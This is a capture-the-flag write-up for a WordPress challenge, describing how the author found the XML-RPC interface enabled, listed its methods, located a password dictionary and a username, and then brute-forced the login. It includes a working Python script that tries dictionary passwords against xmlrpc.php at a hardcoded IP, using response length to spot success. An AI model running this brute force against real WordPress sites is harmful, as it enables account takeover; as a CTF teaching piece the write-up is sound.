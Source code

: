 ```yaml
---
layout: post
title:  "HZVII - $uper $ecure WP Blog"
author: "PsycoR"
tags: HZVII web
---
```


>  WordPress accounted for 90% of all hacked CMS sites in 2018, some WordPress features should be disabled or removed completely if it is not being used to avoid any potential risks. Otherwise, it should at the very least be blocked from external access.





## Steps
- The first thought that comes to mind is to try access default login interface of wordpress but Oops you can not

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp0.png)

- The source code shows that we need to be authenticated to get the flag, how to authenticate without login interface ?

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp1.png)

- Simple scan with wpscan shows that the XML-RPC Interface is enabled. 

>In wp challenges people generally think about vulnerable plugins which is not the case here so What is XML-RPC ?

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp2.png)

>XML-RPC on WordPress is actually an API or “application program interface“. It gives developers who make mobile apps, desktop apps and other services the ability to talk to your WordPress site. The XML-RPC API that WordPress provides gives developers a way to write applications (for you) that can do many of the things that you can do when logged into WordPress via the web interface. These include: Publish a post Edit a post Delete a post. Upload a new file (e.g. an image for a post) Get a list of comments Edit comments

- List available methods

> The first thing to do now is send a POST request and list all the available methods , why ? cause that’s how we’ll know which actions are even possible to make and potentially use one of them for an attack. 

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp3.png)


- Interresting method founded demo.getFlag

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp4.png)

> The flag is not here :'(

- Digging deeper for availible methods.

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp5.png)

> A dictionnary link was founded in the method getFavouriteWords, maybe we need it later

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp6.png)
 
> Another method wp.getFlag seems interresting

- Call wp.getFlag

> The request need more arguements certainly the user & password :)

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp7.png)


- The user who posted the first article in the blog is psycor

> We know our user ;)

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp8.png)

- Now it's time to bruteforce the password using the dictionary previously founded

> We can differentiate successful credentials by response length.

```python
import requests


headers = {'Content-Type': 'text/xml'}

cracklist = open("dic.txt", "r")
for password in cracklist.readlines():
	password = password.strip("\n")
	xml = """<methodCall>
<methodName>wp.getFlag</methodName>
<params>
<param><value>psycor</value></param>
<param><value>"""+password+"""</value></param>
</params>
</methodCall>"""
	response = requests.post('http://51.83.41.116/xmlrpc.php', data=xml, headers=headers)
	if len(response.content) != 403:
		print("Password Founded:= "+password)
		print(response.text)
		break

```

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp9.png)

> The flag is : HZVII{50m371m35_xml_rpc_15_d4n63r0u5}





